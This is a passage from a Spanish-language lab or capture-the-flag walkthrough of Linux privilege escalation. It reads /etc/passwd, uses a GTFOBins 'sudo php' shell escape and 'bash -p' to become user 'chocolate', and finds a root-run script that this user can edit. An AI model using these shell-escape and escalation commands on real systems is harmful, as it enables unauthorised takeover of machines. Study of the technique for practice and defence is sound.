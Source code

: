 ```
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
chocolate:x:1000:1000::/home/chocolate:/bin/bash  <=== El que nos interesa
```
Habia que asegurarse, asi que... :).

Bueno, volviendo al usuario "chocolate", vamos a buscar en la pagina de "gtfobins" o en mi caso, con el comando "searchbins" como ejecutar el binario "php" como "sudo":
```
searchbins -b php -f sudo

[+] Binary: php

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/php/#sudo]

	| CMD="/bin/sh"
	| sudo php -r "system('$CMD');"
```
Asi que probamos en la maquina victima a escribir:
```
CMD="/bin/sh"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```
Si ponemos ahora "whoami" obtenemos que somos el usuario "chocolate", y poniendo "bash -p", obtenemos un prompt "normal":
```
whoami
chocolate

bash -p
chocolate@53305a206d4f:/$
```
El problema es que si ponemos ahora "sudo -l", nos pide la contraseña del usuario "chocolate" (la cual no sabemos), asi que nada por este lado.

Probamos entonces con "find / -perm -4000 2>/dev/null" y mas de lo mismo.

Entonces ahora, ¿que podemos hacer? Pues es hora de mirar los procesos que hay corriendo en segundo plano con el comando:
```
ps -faux
```
Y vemos que el usuario "root" esta usando un servicio "php" un tanto extraño que esta ejecutando cada 5 segundos ("sleep 5"):
```
USER  PID %CPU %MEM    VSZ   RSS TTY STAT START   TIME COMMAND
root  1  0.0  0.0   2616  1408 ?     Ss   10:47   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```
Teniendo en cuenta que el usuario "chocolate" podia usar el binario "php" sin permisos, se me ocurre que podriamos probar ese "script.php" a ver de quien es:
```
ls -l /opt/script.php
```
Y tal y como sospechabamos, sus permisos pertenecen al usuario "chocolate":
```
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
```